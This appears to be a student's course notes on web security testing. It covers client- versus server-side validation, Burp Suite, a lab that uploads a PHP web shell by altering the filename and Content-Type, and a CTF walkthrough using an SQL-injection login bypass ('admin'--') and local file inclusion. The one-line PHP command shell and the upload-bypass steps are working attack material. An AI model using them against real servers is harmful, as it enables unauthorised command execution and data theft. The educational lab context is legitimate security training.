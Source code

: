 # 🧠 Day 2: Client-Side vs Server-Side Validation, Burp Suite, and CTF Walkthrough

## 📚 Topics Covered

### ✅ Client-Side vs Server-Side Validation

| **Aspect**           | **Client-Side Validation**                 | **Server-Side Validation**                     |
| -------------------- | ------------------------------------------ | ---------------------------------------------- |
| Performed On         | User’s browser                             | Web server                                     |
| Speed                | Faster (no server round trip)              | Slower (requires server communication)         |
| Security             | Less secure (can be bypassed by attackers) | More secure (cannot be easily bypassed)        |
| Example Technologies | JavaScript, HTML5 input types              | PHP, Python, Node.js, etc.                     |
| Purpose              | Improve UX, reduce server load             | Ensure data integrity and application security |

🔒 **Conclusion:** Always implement both types of validation. Never rely solely on client-side checks.

---

## 🛠️ Burp Suite Overview

**Burp Suite** is a powerful web vulnerability scanner and proxy tool used by ethical hackers and pentesters to:

- Intercept HTTP/HTTPS traffic between browser and server.
- Modify requests before they reach the server.
- Analyze headers, cookies, and form data.
- Perform automated scans and manual testing.

> 💡 **Definition:** Burp Suite acts as a **man-in-the-middle** proxy that captures and modifies HTTP requests/responses between your browser (frontend) and the server (backend).

### ⚔️ 3 Lines of Defense in Web Applications

1. **Source Code Formatting** – Modifying elements directly via browser dev tools.
2. **Header Analysis** – Viewing and editing request headers.
3. **Burp Suite Interception** – Full control of data flow using proxy.

If none of the above allow you to bypass validation, it is likely **server-side validated**.

> 🧠 **Note:** `.htaccess` or `.hea` files are often used to enforce server-side rules.

---

## 🔬 Lab: Upload PHP Web Shell Using Burp Suitre

### 🎯 Objective:

Exploit a vulnerable file upload feature to gain shell access to the server.

### 🧪 Steps Followed:

1. **Prepare a PHP File** disguised as a `.png`, like `shell.php.png`, containing: ```<?php system($_GET['cmd']); ?>```
2. Inspect the page, **modify the file input** accept attribute if needed.
3. Switch Burp Intercept **ON**.
4. **Upload the file** → Burp intercepts the request.
5. In Burp, change:  
        ```filename="shell.php.png"```  
       ```Content-Type: image/png```   
   to:   
        ```filename="shell.php"```  
       ``` Content-Type: application/x-php```  
6. **Forward the request** → Server accepts it.
7. **Access the file** via URL (e.g., ```/uploads/shell.php```) and use ```?cmd=ls```.

![Burp suite malware attack](day2img/burp2.jpg)
### 🔍 Wappalyzer Extension
Wappalyzer is a browser extension used to identify backend and frontend tech stack such as:

- Languages (PHP, Python, Ruby)
-  Web servers (Apache, Nginx)
- Frameworks (Laravel, Django)
- CMS (WordPress, Joomla)

> 💡 **Note**:You can also analyze backend headers via Burp Repeater or server error messages.
---

### 🕹️ CTF Walkthrough
The CTF involved exploiting 3 vulnerabilities:

1️⃣ **SQL Injection (Authentication Bypass)**

    Used SQLi payload on login page:
    Username: admin'--
    Password: (blank)
    This bypasses login logic and logs you in as admin.

2️⃣ **Security Misconfiguration**

    Inspecting HTML revealed hardcoded credentials:
    <!-- Admin Username: administrator -->
    <!-- Admin Password: AdminPass2024 -->
    <!-- Admin URL: /admin -->  
    Used them to login into admin panel.

3️⃣ **LFI Attack (Local File Inclusion)**

    Input field in admin panel was vulnerable:
    ?q=flag.txt
    Retrieved flag from flag.txt

🏁 **Final Flag:**
```CTF{sql_injection_and_lfi_chain_complete}```




		




